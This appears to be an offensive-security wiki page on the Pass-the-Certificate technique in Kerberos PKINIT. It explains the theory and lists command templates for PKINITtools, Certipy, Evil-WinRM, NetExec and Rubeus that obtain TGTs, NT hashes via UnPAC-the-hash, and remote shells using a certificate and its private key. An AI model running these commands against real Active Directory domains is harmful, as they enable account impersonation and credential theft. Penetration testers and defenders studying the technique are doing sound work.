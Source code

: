 # Pass the Certificate - PKINIT

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](broken-reference)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](broken-reference) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% hint style="danger" %}
If you encounter the erro&#x72;**`KDC_ERR_PADATA_TYPE_NOSUPP`**&#x77;hen attempting to pass the certificate through PKINIT, this may be an indication that the targeted KDC do not have certificates with the necessary EKUs (Extended Key Usages). Specifically, for a KDC to support PKINIT, its certificates must include the **`Smart Card Logon`** EKU.\
\
**However, you can try to** [**pass the certificate using Schannel**](../schannel/pass-the-certificate-schannel.md)**.**
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
#### PKINITtools

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

#### Certipy

When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the obtained TGT.

```bash
certipy auth -pfx <PATH_TO_PFX_CERT> -dc-ip <DC_IP> -username <user> -domain <DOMAIN_FQDN>
```

{% hint style="info" %}
Notes that Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out <unprotected.pfx>
```
{% endhint %}

#### Evil-WinRm

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) uses the [WinRM](../../../redteam/pivoting/winrm.md) protocol based on [Windows Management Instrumentation (WMI)](../../../redteam/pivoting/remote-wmi.md) to give us an interactive shell on a Windows host. Winrm Supports PKINIT, so we can authenticate with a certificate.

```bash
evil-winrm -i <TARGET_IP> -c <PATH_TO_PEM_CERT> -k <PATH_TO_PEM_KEY> -S -r <DOMAIN_REALM>
```

Evil WinRM doesn't directly support PFX files and need a PEM certificate and private key. The following commands can be used to convert a PFX file in PEM formats

```bash
# Exctract PEM certificate
openssl pkcs12 -in <PATH_TO_PFX_CERT> -clcerts -nokeys -out <PATH_TO_NEW_PEM_CERT>
# Extrcat PEM key
openssl pkcs12 -in <PATH_TO_PFX_CERT> -nocerts -out <ENC_PEM_KEY>
openssl rsa -in <ENC_PEM_KEY> -out <FINAL_PEM_KEY>
```

#### NetExec

You can also use [Netexec](https://github.com/Pennyw0rth/NetExec) to perform Pass-the-Certificate authentication:

```bash
netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" --pfx-pass "CERT_PASSWORD" -u user 
netexec <proto> <ip> --pfx-base64 "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --cert-pem "PATH_TO_CRT" --key-pem "PATH_TO_KEY" -u user
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](broken-reference)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}

